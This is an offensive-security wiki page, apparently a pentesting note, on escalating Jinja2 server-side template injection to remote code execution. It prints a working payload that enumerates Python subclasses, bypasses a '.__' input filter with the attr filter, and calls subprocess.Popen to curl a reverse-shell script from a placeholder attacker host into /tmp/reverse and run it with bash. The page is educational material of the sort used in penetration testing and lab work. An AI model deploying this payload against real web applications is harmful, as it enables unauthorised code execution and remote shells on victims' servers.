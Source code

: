 ```yaml
---
title: Pwning Jinja 2
tags:
  - advanced
  - pentesting
  - jinja
  - server
  - side
  - template
  - injection
  - python
  - web-app
---
```


## RCE w/ Jinja templates

In our previous article on
[[server-side-template-injection#Leaking sensitive information from Jinja|server-side template injection (SSTI) attacks against Jinja]],
we only discussed leaking sensitive information using some Python builtins. That
doesn't do SSTI against Jinja must justice because we can _definitely_ gain
remote code execution (RCE) with a little bit of elbow grease.

What have to realize with Jinja is that we have access to _all_ of the Python
packages, classes, types, methods, etc. imported by the web application and
currently available in the Python runtime at time of template injection. This
means we have access to things like `subprocess.Popen`, `os`, `sys` etc.

Using the following dark magic, we can expose all classes available to us in the
Python runtime through Jinja template injection:

```python
{{ dict.mro()[-1].__subclasses__() }}
```

What do these incantations mean? `mro` stands for **Method Resolution Order
(MRO)** and it's a method inherited by every Python class that exposes the class
order an object searches to find the implementation of a method in any of its
parent classes. In the snippet above, we use the `<class 'object'>` class,
always the last class in the MRO, to obtain access to all the subclasses of the
`<class 'object'>` class.

The `<class 'object'>` class is the parent of _all_ classes implemented in
Python, giving us access to all global class definitions in the current runtime.
Finally, we call the special `__subclasses__` method that gives us a reference
to all the subclasses of the `<class 'object'>` class in the current Python
runtime, giving us the ability to instantiate arbitrary objects for any class in
the current runtime. More on these builtin classes can be found below:

- [MRO](https://docs.python.org/3/reference/datamodel.html#type.__mro__)
- [\_\_subclasses\_\_](https://docs.python.org/3/reference/datamodel.html#type.__subclasses__)

The following snippet is a Jinja template that uses `subprocess.Popen` to
download a reverse shell `bash` script from the attacker host to the victim
host, saving it to `/tmp/reverse` and then executing `/tmp/reverse` in `bash` to
initiate a reverse shell callback to the attacker host:

```python
{% set string = "" %}
{% set class = "__class__" %}
{% set mro = "__mro__" %}
{% set subclasses = "__subclasses__" %}
{% set mro_r = string|attr(class)|attr(mro) %}
{% set subclasses_r = mro_r[-1]|attr(subclasses)() %}
{{ subclasses_r }}
{% if subclasses_r[570](["curl", "http://{ATTACKER_HOST}:{ATTACKER_PORT}/reverse", "-o", "/tmp/reverse"]) %}
	{{ subclasses_r[570](["bash", "/tmp/reverse"]) }}
{% endif %}
```

Be wary of the index reference `subclasses_r[570]` - this won't always be the
same for all Python web applications vulnerable to Jinja SSTI. Like I mentioned
earlier, every time a Python web application starts, the `__subclasses__` order
_will_ change. Thus, we have to expose the entire list of `__subclasses__`
first, find the index of the `subprocess.Popen` subclass in the `__subclasses__`
list, and then use that for our follow-up RCE payload.

### Bypassing Jinja template filters

The above snippet provides an example of bypassing Jinja template filters. In
our case, we were avoiding the following bad characters:

- `.__` The Python web application would reject templates with any characters
  following that exact pattern. In order to access the `__mro__` and
  `__subclasses__` attributes of our `string` and `<class 'object'>` classes, we
  used the Jinja `attr` function to access class attributes and methods. We also
  used the Jinja `{%%}` directives to store the outcomes of our attribute and
  method calls.

We also use `{% if %}` and `{% endif %}` to spawn our download and execute
`subprocess.Popen` calls consecutively instead of in parallel. More or bypassing
Jinja template filters, or just really good example payloads, can be found on
HackTricks:

- [Jinja2 SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#accessing-global-objects)

## Related pages

- [[reversing-python-web-applications|Reversing Python web applications]]
- [[server-side-template-injection|Server-side template injection]]
